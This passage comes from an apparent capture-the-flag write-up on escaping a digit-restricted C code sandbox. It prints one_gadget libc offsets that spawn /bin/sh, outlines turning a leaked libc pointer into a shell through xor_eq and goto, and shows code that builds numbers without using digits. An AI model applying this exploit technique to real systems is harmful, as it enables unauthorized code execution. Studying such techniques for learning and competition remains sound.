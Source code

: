 ```
0x4c139 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x60 is writable
  rsp & 0xf == 0
  rax == NULL || {"sh", rax, r12, NULL} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0x4c140 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x60 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, r12, NULL} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0xd515f execve("/bin/sh", rbp-0x40, r13)
constraints:
  address rbp-0x38 is writable
  rdi == NULL || {"/bin/sh", rdi, NULL} is a valid argv
  [r13] == NULL || r13 == NULL || r13 is a valid envp
```

We could get a libc pointer (e.g. with `extern long stdout; long one_gadget xor_eq stdout;`), then perform some bit arithmetic on it (e.g. with `xor_eq`) with numbers and then hopefully get a shell by jumping to it (with `goto`).

Since we'll need numbers to do the arithmetic effectively, but we can't use digits due to the charset restriction, we need to find some way to get numbers. Let's quickly get that section out of the way.

### Building Numbers

With the two defines for `1` and `2`:

```c
...
#define __pic__ 2
...
#define __linux__ 1
...
```

along with multiplication and the keywords `xor_eq` (`^=`) and `or_eq` (`|=`), we can build arbitrary numbers into variables. We start by building every power of two using multiplication:

```c
    unsigned long two_zero; // 2^0 = 1
    two_zero xor_eq two_zero;
    two_zero or_eq __linux__;

    unsigned long two_one; // 2^1 = 2
    two_one xor_eq two_one;
    two_one or_eq __pic__;

    unsigned long two_two; // 2^2 = 2^1 * 2
    two_two xor_eq two_two;
    two_two or_eq two_one * two_one;

    unsigned long two_three; // 2^3 = 2^2 * 2
    two_three xor_eq two_three;
    two_three or_eq two_two * two_one;

    // ...

    unsigned long two_sixty_three; // 2^63 = 2^62 * 2
    two_sixty_three xor_eq two_sixty_three;
    two_sixty_three or_eq two_sixty_two * two_one;
```